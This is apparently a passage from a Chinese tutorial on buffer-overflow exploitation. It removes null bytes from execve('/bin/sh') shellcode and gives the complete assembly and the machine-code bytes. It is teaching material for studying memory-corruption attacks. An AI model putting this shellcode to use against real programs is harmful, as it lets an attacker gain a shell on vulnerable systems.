 我们知道C语言中的字符串以'\0'结尾,strcpy等函数遇到'\0'就结束运行.因此
为了保证我们的ShellCode能被完整地拷贝到Buffer中,ShellCode中一定不能含
有'\0'. 下面我们就对它作最后一次改进,去掉其中的'\0':

原指令：　　　　　　　　　　替换为：
--------------------------------------------------------
movb　$0x0，0x7(%esi)　　　　xorl %eax,%eax
movl　$0x0，0xc(%esi)　　　　movb %eax,0x7(%esi)
　　　　　　　　　　　　　　 movl %eax,0xc(%esi)
--------------------------------------------------------
movl　$0xb,%eax　　　　　　　movb $0xb,%al
--------------------------------------------------------

OK! 现在我们可以试验一下这段ShellCode了. 首先我们把它封装为C语言的形式.
------------------------------------------------------------------------------
void main() {
__asm__("
jmp 0x18　　　　　　 # 2 bytes
popl %esi　　　　　　# 1 byte
movl %esi,0x8(%esi)　# 3 bytes
xorl %eax,%eax　　　 # 2 bytes
movb %eax,0x7(%esi)　# 3 bytes
movl %eax,0xc(%esi)　# 3 bytes
movb $0xb,%al　　　　# 2 bytes
movl %esi,%ebx　　　 # 2 bytes
leal 0x8(%esi),%ecx　# 3 bytes
leal 0xc(%esi),%edx　# 3 bytes
int　$0x80　　　　　 # 2 bytes
call -0x2d　　　　　 # 5 bytes
.string \"/bin/sh\"　# 8 bytes
");
}
------------------------------------------------------------------------------

经过编译后,用gdb得到这段汇编语言的机器代码为:
\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b
\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xec\xff\xff\xff/bin/sh

接着我们就可以利用这段代码编写溢出程序了。(具体方法可以参考“缓冲区溢出机理分析”)

 
</pre></div>